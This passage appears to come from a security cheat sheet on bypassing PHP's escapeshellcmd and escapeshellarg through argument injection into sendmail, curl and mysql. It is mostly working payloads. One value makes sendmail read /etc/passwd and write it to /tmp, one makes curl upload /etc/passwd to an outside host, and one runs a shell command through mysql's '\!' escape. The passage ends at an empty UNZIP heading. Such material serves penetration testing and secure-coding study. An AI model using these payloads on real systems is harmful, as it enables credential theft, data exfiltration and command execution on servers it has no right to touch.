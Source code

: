Send `mail.txt`. Set the envelope sender address to `from@sth.com`

```php
$from = 'from@sth.com';
system("/usr/sbin/sendmail -t -i -f".escapeshellcmd($from ).' < mail.txt');
```

Print `/etc/passwd` content.

```php
$from = 'from@sth.com -C/etc/passwd -X/tmp/output.txt';
system("/usr/sbin/sendmail -t -i -f".escapeshellcmd($from ).' < mail.txt');
```


## [CURL](https://tom0li.github.io/2018/03/06/escapeshellarg&escapeshellcmd/)

Download `http://example.com` content.

```php
$url = 'http://example.com';
system(escapeshellcmd('curl '.$url));
```

Send `/etc/passwd` content to `http://example.com`.

```php
$url = '-F password=@/etc/passwd http://example.com';
system(escapeshellcmd('curl '.$url));
```

You can get file using:

```php
file_put_contents('passwords.txt', file_get_contents($_FILES['password']['tmp_name']));
```

## [MYSQL](http://skysec.top/2017/12/14/pwnhub%E6%88%90%E5%8A%9F%E5%B0%B1%E6%98%AF%E8%A6%81%E6%A2%AD%E5%93%88%E4%B9%8B%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95/)

Execute sql statement:

```php
$sql = 'SELECT sth FROM table';
system("mysql -uuser -ppassword -e ".escapeshellarg($sql));
```

Run `id` command.

```php
$sql = '\! id';
system("mysql -uuser -ppassword -e ".escapeshellarg($sql));
```

## [UNZIP](http://lab.onsec.ru/2013/03/breaking-escapeshellarg-news.html)
